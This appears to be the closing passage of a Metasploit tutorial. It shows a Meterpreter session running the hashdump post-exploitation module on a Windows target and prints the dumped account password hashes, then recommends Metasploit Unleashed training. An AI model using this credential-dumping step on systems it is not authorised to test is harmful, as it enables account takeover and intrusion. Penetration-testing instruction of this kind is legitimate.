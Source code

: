 To list all run commands in the target system execute 'run tab+tab' and enter it will show all run commands.

To dump all target system user hashes use

```
meterpreter > run post/windows/gather/hashdump 

[*] Obtaining the boot key...
[*] Calculating the hboot key using SYSKEY 8528c78df7ff55040196a9b670f114b6...
[*] Obtaining the user list and keys...
[*] Decrypting user keys...
[*] Dumping password hashes...

Administrator:500:b512c1f3a8c0e7241aa818381e4e751b:1891f4775f676d4d10c09c1225a5c0a3:::
dook:1004:81cbcef8a9af93bbaad3b435b51404ee:231cbdae13ed5abd30ac94ddeb3cf52d:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:9cac9c4683494017a0f5cad22110dbdc:31dcf7f8f9a6b5f69b9fd01502e6261e:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:36547c5a8a3de7d422a026e51097ccc9:::
victim:1003:81cbcea8a9af93bbaad3b435b51404ee:561cbdae13ed5abd30aa94ddeb3cf52d:::
meterpreter >

```





## Conclusion

_**I have explained basic use cases of Metasploit-framework because its an all in one platform to perform penetration test look also in offsec free [metasploit unleashed training](https://www.offensive-security.com/metasploit-unleashed/).**_
